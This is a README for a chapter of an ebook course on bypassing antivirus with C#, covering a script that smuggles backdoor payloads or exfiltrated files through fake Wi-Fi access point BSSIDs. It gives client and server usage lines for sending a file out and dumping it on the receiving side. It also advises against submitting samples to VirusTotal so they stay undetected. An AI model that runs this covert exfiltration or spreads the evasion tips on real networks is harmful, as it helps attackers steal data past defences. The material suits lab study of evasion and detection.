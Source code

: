 # Course : Bypassing Anti Viruses by C#.NET Programming

Part 2 (Infil/Exfiltration/Transferring Techniques by C#)  , Chapter 9 : Transferring Backdoor Payload by Wireless Traffic (BSSID)

eBook : Bypassing Anti Viruses by C#.NET Programming

eBook chapter 9 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH9

Related Video : 

Video 1 C# Code : https://youtu.be/W0dJGln3tls




Warning :Don't Use "www.virustotal.com" or something like that , Never Ever ;D

Recommended:

STEP 1 : Use each AV one by one in your LAB .

STEP 2 : after "AV Signature Database Updated" your Internet Connection should be "Disconnect" .

STEP 3 : Now you can Copy and Paste your C# code to your Virtual Machine for test .

# NativePayload_BSSID.sh  help :

Example Step1: (Client Side ) ./NativePayload_BSSID.sh -f text-file Fake-AP-Name MonitorMode-Interface

Example Step2: (Server Side ) ./NativePayload_BSSID.sh -s wlanx Exfil-Dump-file

example System A : ./NativePayload_BSSID.sh -f mytext.txt myfakeAP Wlan3mon

example System B : ./NativePayload_BSSID.sh -s wlan0 ExfilDumped.txt


![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSID1.png)

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSID2.png)
